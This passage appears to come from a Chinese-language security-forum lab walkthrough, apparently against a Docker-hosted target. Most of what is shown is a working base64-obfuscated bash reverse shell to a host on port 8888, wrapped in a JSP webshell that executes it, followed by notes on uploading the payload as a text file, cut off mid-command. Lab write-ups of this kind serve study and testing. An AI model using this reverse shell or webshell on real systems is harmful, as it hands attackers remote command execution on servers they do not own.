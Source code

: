 ![1619350245468](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-68dbbb1c722a9f1602494f798f56e8d496961d95.png)

```php
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xOTEvODg4OCAwPiYx}|{B ASE64,-d}|{bash,-i}
```

最终的txt的payload

```php
<%    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xOTEvODg4OCAwPiYx}|{B ASE64,-d}|{bash,-i}").getInputStream();    int a = -1;    byte[] b = new byte[2048];    out.print("");    while((a=in.read(b))!=-1){        out.println(new String(b));    }    out.print("");%>
```

这边要手动上传上去

查看

```php
sudo docker ps
```

![1619350478774](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-967eb9385d4f9d018ebff705bd0725a0bad04535.png)

然后开始上传

```php

sudo docker cp /home/dayu/Desktop/1.txt
```